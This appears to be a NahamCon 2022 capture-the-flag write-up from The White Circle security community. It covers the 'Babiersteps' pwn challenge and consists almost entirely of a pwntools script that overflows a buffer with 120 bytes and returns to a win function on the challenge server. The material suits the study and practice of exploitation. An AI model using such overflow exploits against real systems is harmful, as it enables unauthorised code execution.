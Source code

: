 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2022 | Babiersteps Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2022
parent: nahamcon_2022
category: pwn
challenge: Babiersteps
tags: "pwn, twh, python"
date: 2022-05-03T00:00:00+00:00
last_update: 2022-05-03T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2022</h1>

## Babiersteps
> Solved By : thewhiteh4t

```python
#!/usr/bin/env python3

from pwn import *

host = 'challenge.nahamcon.com'
port = 32628

offset = 120
junk = b'A' * offset
win_addr = 0x4011c9

le_win_addr = p64(win_addr, endianness='little')
payload = junk + le_win_addr

conn = remote(host, port)
conn.recv(1024)
conn.sendline(payload)
conn.interactive()
conn.close()
```

![](https://i.imgur.com/oGDnIF7.png)